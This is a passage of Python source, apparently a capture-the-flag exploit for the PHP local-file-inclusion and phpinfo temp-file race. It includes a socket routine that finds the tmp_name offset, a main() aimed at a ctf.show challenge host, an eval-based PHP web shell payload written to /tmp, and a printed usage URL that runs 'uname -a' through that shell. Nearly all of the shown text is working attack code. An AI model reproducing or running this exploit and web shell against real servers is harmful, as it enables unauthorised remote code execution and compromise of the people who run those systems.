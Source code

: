 ```python
                        shell_code=self.shell_code,
                        shell_path=self.shell_path
                    ))
                    'http://127.0.0.1/test/lfi_phpinfo/lfi.php?load=/tmp/gc&f=uname%20-a'
                    print('默认调用方法: http://{host}:{port}{lfi_path}?{lfi_param}={shell_path}&f=uname%20-a'.format(
                        host=self.host,
                        port=self.port,
                        lfi_path=self.lfi_path,
                        lfi_param=self.lfi_param,
                        shell_path=self.shell_path
                    ))

                    self.event.set()
            except socket.error:
                return


def get_offset(host, port, phpinfo_request):
    """
    获取tmp_name在phpinfo中的偏移量
    :param host: HOST
    :param port: 端口
    :param phpinfo_request: phpinfo 请求内容
    :return:
        tmp_name在phpinfo中的偏移量
    """

    phpinfo_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    phpinfo_socket.connect((host, port))
    phpinfo_socket.send(phpinfo_request.encode())
    phpinfo_response_data = ''
    while True:
        i = phpinfo_socket.recv(4096).decode()
        phpinfo_response_data += i
        if i == '':
            break

        # 检测是否是最后一个数据块
        if i.endswith('0\r\n\r\n'):
            break
    phpinfo_socket.close()
    tmp_name_index = phpinfo_response_data.find('[tmp_name] =&gt')
    print(phpinfo_response_data)
    if tmp_name_index == -1:
        raise ValueError('没有在phpinfo中找到tmp_name')
    print('找到了 {} 在phpinfo内容索引为{}的位置'.format(
        phpinfo_response_data[tmp_name_index:tmp_name_index+10], tmp_name_index))

    return tmp_name_index + 256


def main():
    pool_size = 100
    host = '9627f67a-6cd4-4434-82d0-24853f6204c8.chall.ctf.show'
    port = 80
    phpinfo_path = '/'
    lfi_path = '/'
    lfi_param = 'isVIP=1'
    shell_code = '<?php eval($_POST["mb"]);?>'
    shell_path = '/tmp/g'
    # 最大尝试次数
    max_attempts = 1000
```